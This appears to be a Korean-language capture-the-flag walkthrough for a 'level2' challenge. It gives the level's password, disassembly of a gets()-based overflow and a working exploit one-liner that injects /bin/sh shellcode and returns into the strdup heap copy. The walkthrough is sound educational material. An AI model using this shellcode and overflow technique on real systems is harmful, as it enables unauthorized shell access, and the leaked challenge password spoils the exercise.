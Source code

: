 > Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

objdump를 사용해서 level2파일을 확인하면

```
0804853f <main>:
 804853f:	55                   	push   %ebp
 8048540:	89 e5                	mov    %esp,%ebp
 8048542:	83 e4 f0             	and    $0xfffffff0,%esp
 8048545:	e8 8a ff ff ff       	call   80484d4 <p>
 804854a:	c9                   	leave  
 804854b:	c3                   	ret    
 804854c:	90                   	nop
 804854d:	90                   	nop
 804854e:	90                   	nop
 804854f:	90                   	nop
```

```
080484d4 <p>:
 80484d4:	55                   	push   %ebp
 80484d5:	89 e5                	mov    %esp,%ebp
 80484d7:	83 ec 68             	sub    $0x68,%esp
 80484da:	a1 60 98 04 08       	mov    0x8049860,%eax
 80484df:	89 04 24             	mov    %eax,(%esp)
 80484e2:	e8 c9 fe ff ff       	call   80483b0 <fflush@plt>
 80484e7:	8d 45 b4             	lea    -0x4c(%ebp),%eax
 80484ea:	89 04 24             	mov    %eax,(%esp)
 80484ed:	e8 ce fe ff ff       	call   80483c0 <gets@plt>
 80484f2:	8b 45 04             	mov    0x4(%ebp),%eax
 80484f5:	89 45 f4             	mov    %eax,-0xc(%ebp)
 80484f8:	8b 45 f4             	mov    -0xc(%ebp),%eax
 80484fb:	25 00 00 00 b0       	and    $0xb0000000,%eax
 8048500:	3d 00 00 00 b0       	cmp    $0xb0000000,%eax
 8048505:	75 20                	jne    8048527 <p+0x53>
 8048507:	b8 20 86 04 08       	mov    $0x8048620,%eax
 804850c:	8b 55 f4             	mov    -0xc(%ebp),%edx
 804850f:	89 54 24 04          	mov    %edx,0x4(%esp)
 8048513:	89 04 24             	mov    %eax,(%esp)
 8048516:	e8 85 fe ff ff       	call   80483a0 <printf@plt>
 804851b:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048522:	e8 a9 fe ff ff       	call   80483d0 <_exit@plt>
 8048527:	8d 45 b4             	lea    -0x4c(%ebp),%eax
 804852a:	89 04 24             	mov    %eax,(%esp)
 804852d:	e8 be fe ff ff       	call   80483f0 <puts@plt>
 8048532:	8d 45 b4             	lea    -0x4c(%ebp),%eax
 8048535:	89 04 24             	mov    %eax,(%esp)
 8048538:	e8 a3 fe ff ff       	call   80483e0 <strdup@plt>
 804853d:	c9                   	leave  
 804853e:	c3                   	ret    
```

main 함수에서는 p함수를 바로 호출한다.

p 함수는 gets로  -0x4c(%ebp)위치에 문자열을 입력받는다

그런 다음 ebp + 4위치를 확인하는데, 만약 값이 0xb로 시작하는 경우에는 그 값을 출력하고 즉시 _exit을 호출해서 프로그램이 종료된다.

그렇지 않은 경우 입력받은 문자열을 그대로 출력한 이후 strdup으로 문자열을 복제한 다음 끝난다.

이번 문제의 경우에는 저번 문제랑 접근 방법이 거의 같지만, 쉘을 얻는 함수가 코드상에 없어서 직접 만들어야 한다는 점이 다르다.

생각해 볼 수 있는 간단한 방법은 glib가 링킹되어 있다는 사실을 이용해서 스택에 "/bin/sh"와 같은 문자열을 집어넣고 system(3)함수를 호출하는 방법인데, gdb에서 info proc map을 보면 glibc의 매핑 주소 맨 앞이 전부 0x0b로 시작되서 이 방법으로는 문제를 해결할 수 없다.

조금 더 복잡한 방법은 시스템 콜을 직접 해서 쉘을 얻는 코드(쉘코드)를 직접 메모리에 주입하고, 그 코드를 이용하는 방법이다.

쉘코드와 ebp + 4를 침범하기 위한 적당한 패딩 바이트와 그 쉘코드가 실제로 메모리에 올라갈 공간을 하나로 합친 이후, 프로그램의 표준 입력으로 넣어준다.

```bash
cat <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + ("A" * 52)  + "\x08\xa0\x04\x08"') - | ./level2
```

이때 쉘코드가 올라갈 공간의 주소는 p 함수에서 마지막에 strdup를 한다는 점을 이용해서 실행 도중 값이 바뀔 위험이 적은 힙 영역으로 정했다.